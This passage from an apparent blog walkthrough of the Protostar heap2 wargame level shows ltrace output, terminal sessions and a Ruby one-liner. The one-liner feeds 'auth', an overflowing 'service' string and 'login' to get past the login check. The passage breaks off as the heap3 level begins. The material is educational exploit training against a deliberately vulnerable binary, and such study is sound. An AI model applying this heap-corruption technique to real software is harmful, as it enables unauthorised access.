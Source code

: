 printf("[ auth = %p, service = %p ]\n", 0x804c008, 0x804c018[ auth = 0x804c008, service = 0x804c018 ]
)                                                                 = 42
fgets(login
"login\n", 128, 0xb7fd8420)                                                                                             = 0xbffff730
strncmp("login\n", "auth ", 5)                                                                                                = 11
strncmp("login\n", "reset", 5)                                                                                                = -6
strncmp("login\n", "service", 6)                                                                                              = -7
strncmp("login\n", "login", 5)                                                                                                = 0
puts("you have logged in already!"you have logged in already!
)                                                                                           = 28
printf("[ auth = %p, service = %p ]\n", 0x804c008, 0x804c018[ auth = 0x804c008, service = 0x804c018 ]
)                                                                 = 42
fgets("login\n", 128, 0xb7fd8420)                                                                                             = NULL
+++ exited (status 0) +++
{% endcodeblock %}

As we can see above, we sent 15 character + newline.

{% codeblock %}
user@protostar:~$ /opt/protostar/bin/heap2 
[ auth = (nil), service = (nil) ]
auth A
[ auth = 0x804c008, service = (nil) ]
service AAAAAAAAAAAAAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]

user@protostar:~$ ruby -e 'puts "auth A"; puts "service " + "A" * 15; puts "login"' | /opt/protostar/bin/heap2 
[ auth = (nil), service = (nil) ]
[ auth = 0x804c008, service = (nil) ]
[ auth = 0x804c008, service = 0x804c018 ]
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
{% endcodeblock %}

## Protostar Heap3

This level introduces old `Doug Lea Malloc` version, which is statically linked with `heap3` binary.

{% codeblock lang:c heap3.c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
